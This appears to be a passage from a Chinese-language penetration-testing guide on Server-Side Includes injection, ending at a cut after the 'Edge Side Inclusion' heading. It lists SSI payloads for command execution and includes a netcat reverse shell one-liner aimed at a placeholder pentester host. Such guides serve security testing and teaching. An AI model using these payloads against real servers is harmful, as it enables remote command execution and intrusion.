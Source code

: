 SSI（服务器端包含）是**放置在 HTML 页面中的指令，并在服务器上评估**，同时页面被提供。它们允许您**向现有 HTML 页面添加动态生成的内容**，而无需通过 CGI 程序或其他动态技术提供整个页面。\
例如，您可以在现有 HTML 页面中放置一个指令，如：

`<!--#echo var="DATE_LOCAL" -->`

当页面被提供时，这个片段将被评估并替换为其值：

`Tuesday, 15-Jan-2013 19:28:54 EST`

使用 SSI 的决定，以及何时让您的页面完全由某个程序生成，通常取决于页面的静态部分有多少，以及每次页面被提供时需要重新计算多少。SSI 是添加小块信息的好方法，例如上面显示的当前时间。但如果您的页面大部分是在提供时生成的，您需要寻找其他解决方案。

如果 Web 应用程序使用扩展名为**`.shtml`、`.shtm` 或 `.stm`**的文件，您可以推断出 SSI 的存在，但这并不是唯一的情况。

典型的 SSI 表达式具有以下格式：
```
<!--#directive param="value" -->
```
### 检查
```javascript
// Document name
<!--#echo var="DOCUMENT_NAME" -->
// Date
<!--#echo var="DATE_LOCAL" -->

// File inclusion
<!--#include virtual="/index.html" -->
// Including files (same directory)
<!--#include file="file_to_include.html" -->
// CGI Program results
<!--#include virtual="/cgi-bin/counter.pl" -->
// Including virtual files (same directory)
<!--#include virtual="file_to_include.html" -->
// Modification date of a file
<!--#flastmod file="index.html" -->

// Command exec
<!--#exec cmd="dir" -->
// Command exec
<!--#exec cmd="ls" -->
// Reverse shell
<!--#exec cmd="mkfifo /tmp/foo;nc <PENTESTER IP> <PORT> 0</tmp/foo|/bin/bash 1>/tmp/foo;rm /tmp/foo" -->

// Print all variables
<!--#printenv -->
// Setting variables
<!--#set var="name" value="Rich" -->

```
## Edge Side Inclusion
